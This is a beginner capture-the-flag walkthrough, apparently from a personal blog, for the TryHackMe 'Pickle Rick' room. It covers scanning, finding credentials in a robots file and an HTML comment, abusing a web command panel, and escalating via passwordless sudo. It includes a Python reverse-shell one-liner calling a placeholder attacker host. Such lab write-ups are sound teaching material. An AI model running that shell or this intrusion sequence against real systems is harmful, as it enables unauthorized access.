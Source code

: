 ```yaml
---
title: "Try Hack Me - Pickle Rick Walkthrough"
date: 2022-07-24 12:00:00
catagories: [article,walkthrough]
tags: [THM, ctf, beginner]
---
```

![Rick being cool.](https://imgur.com/BkKtAkO.png)

[Link to Pickle Rick Room](https://tryhackme.com/room/picklerick)

This is an old room on Try Hack Me. At the time I am writing this walkthrough it has been released for almost 4 years!
This room is also a CTF (Capture the Flag) room which means that it is not a "Real World" experience. Instead it is meant to help us practice our skills.

# Scanning the Host
First we will scan the host. I like to use [autorecon](https://github.com/Tib3rius/AutoRecon) by [Tib3rius](https://twitter.com/0xTib3rius) to get things started.

I create a new folder for the room and then a command that looks like:
```bash
sudo python3 /tool_repos/AutoRecon/autorecon.py <xx.xx.xx.xx> --dirbuster.threads=100 -o /path/to/box_folder && sudo chown -R <user>:<user> /path/to/box_folder
```
Ok let me explain that command:
- `sudo python3` - I use `sudo` because some of the tools autorecon uses need to be run as `root`. The problem with this is any files created are owned by `root`. (We will fix this in a second.)
- `/tool_repos/AutoRecon/autorecon.py` - I always create a directory on my kali boxes to store all the tools I `git clone` from github. (Even better if you have NFS storage your home lab, use that to mount the folder with all the tools you like. Then whenever you need to rebuild your kali box you mount the folder and all your tools are ready to go.)
- `<xx.xx.xx.xx>` - This is just a placeholder for the IP of the box you are scanning.
- `--dirbuster.threads=100` - How many dirbuster threads you want to allocate. This is an important setting. A higher number of threads helps the scan get done faster.
- `-o /path/to/box_folder` - This is the output path for the results of the scans.
- `&& sudo chown -R <user>:<user> /path/to/box_folder` - This is some magic I add to the end of the scan.
    - The `&&` just means run the next command if the previous command was successful
    - Because we used `sudo` all the files created are owned by root. So we use `sudo` here to change ownership back to us.
    - We use a recursive `chown` to set the owenership of the files back to our 'regular' user.
    - Just replace both `<user>` spots with the name of your user.

# Scan Results
After running `autorecon` we see that there are only 2 ports open:
- tcp 22 (SSH)
- tcp 80 (HTTP)

Lets's take a look at port 80.
It's important to remember that autorecon with run a ton of `NMAP` scripts against the ports it finds before we jump into a web browser and look at the page let's examine what it found.

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-chrono: Request times for /; avg: 578.44ms; min: 566.60ms; max: 605.38ms
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
```
First we see that there is a `robots.txt` file these can contain some good information. Let's check it out.
- You can learn more about `robots.txt` files [HERE](https://moz.com/learn/seo/robotstxt)
- The only thing we find is: `Wubbalubbadubdub`
- `NMAP` is also telling us it found `login.php`, we will have to remember to come back to that.

NOTE: I have learned with CTFs to always note strange discoveries like this, they are usually not there by accident.

Here is the next interesting finding in from the `NMAP` scan:
```
| http-comments-displayer:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.210.147
|
|     Path: http://10.10.210.147:80/
|     Line number: 28
|     Comment:
|         <!--
|
|             Note to self, remember username!
|
|             Username: R1ckRul3s
|
|           -->
```
We should always check to HTML comments in the page source, but `NMAP` will do it for us! (To my shame, it took me a while to realize that `autorecon` was running this `NMAP` script against HTTP ports.)

So now we have a username too: `R1ckRul3s`

# Login Page
Time to check out the discovered login page.
![](/assets/images/pr_login.jpg?raw=true)

We have a username and what could be a password, let's try it!

![](/assets/images/command_panel.jpg?raw=true)

It worked! Now I really want to play with that `Command Panel`, but let's take some time to look at the tabs on the page.

All the tabs say that only the "REAL" Rick can view the pages. This may mean that are only logged in as a low level user and need a different login to view the other pages.

Ok time to play with `Command Panel`, and it looks like we have direct code execution on the box.

![](/assets/images/rce.jpg?raw=true)

But not for everything, when we try: `cat /etc/passwd` we get:

![](/assets/images/no_rce.jpg?raw=true)

If we run `pwd` we see that we are in `/var/www/html` and if we run `ls -lah` we see some files we did know about, `index.html` and `login.php` and some we didn't. Let see if we can navigate directly to these new files.

![](/assets/images/file_list.jpg?raw=true)

And we find the answer for "the first ingredient" in the file: `Sup3rS3cretPickl3Ingred.txt`

![](/assets/images/flag1.jpg?raw=true)

`clue.txt` tells us that we need to look around the filesystem some more.

We always want to know what users are on a system so let's `ls -lah /home`

![](/assets/images/pr_home.jpg?raw=true)

We see 2 users, `ubuntu` and `rick` and rick's permissions are wide open so let's explore his home directory.
But after I looked around for a while longer I didn't find much. I think it's time to pop a shell on this box.
First let's see if we can use python3:

![](/assets/images/python_v.jpg?raw=true)

Now that we know that python3 executes we can try to pop a shell!
Let's try this one. DON'T FORGET TO CHAGNE YOUR HOST IP AND PORT in the command! :)  

By the way, I tried few different reverse shells. The one below may not always work, but it did here. Many times you will have to experiment to discover with will work on a given box.  

```bash
export RHOST="xx.xx.xx.xx";export RPORT=xxxx;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
And once we get our shell, let's 'upgrade' it:

```python
python3 -c "import pty;pty.spawn('/bin/bash')"
```
Now we can go get the answer to the 2nd question! 

![](/assets/images/flag2.jpg?raw=true)

So now we have a "foothold" on the box, it's time to do some privesc (priviledge escalation)

I like to use [LSE](https://github.com/diego-treitos/linux-smart-enumeration) (Linux Smart Enumeration) tool when enumerating a system for possible privesc points.

BUT, before we do all that we should just check to see if our user has `sudo` privleges. Which in the real world the `www-data` user should never have! 
So we try `sudo -l` which should tell us what privleges the user has. 

![](/assets/images/pr_root.jpg)

Wow, we can run ALL commands as `root` with no password!! 

Looks like Rick likes to live dangerously!

You can either use `sudo` in front of all your commands or just switch to  `root` with `sudo su`

Now you can get the answer to the third question in the `/root` directory! 




